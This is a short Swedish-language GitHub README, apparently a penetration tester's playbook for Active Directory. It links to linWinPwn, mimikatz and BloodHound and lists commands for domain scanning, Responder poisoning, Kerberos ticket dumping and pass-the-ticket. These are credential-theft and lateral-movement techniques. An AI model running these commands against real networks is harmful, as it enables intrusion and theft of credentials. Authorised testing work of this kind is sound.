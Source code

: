 # Gunnajs-Playbook
En svensk penetrationsvägvisare

## Tools bby

### linWinPwn - Active Directory Vulnerability Scanner
https://github.com/lefayjey/linWinPwn
### mimikatz
https://github.com/ParrotSec/mimikatz
### Bloodhound
https://github.com/BloodHoundAD/BloodHound

# VEV

## linWinPwn 
```bash
sudo ./linWinPwn.sh -t <Domän_Kontrollant_IP> -u <AD_konto> -p <AD_lösen>
```

## Responder
```bash
responder -I eth0 -v
```

## Mimikatz
### Dump tickets
```bash
mimikatz.exe
privilege::debug
sekurlsa::tickets /export
```
### Pass the ticket
```bash
mimikatz.exe
kerberos::ptt <ticket>
klist
```

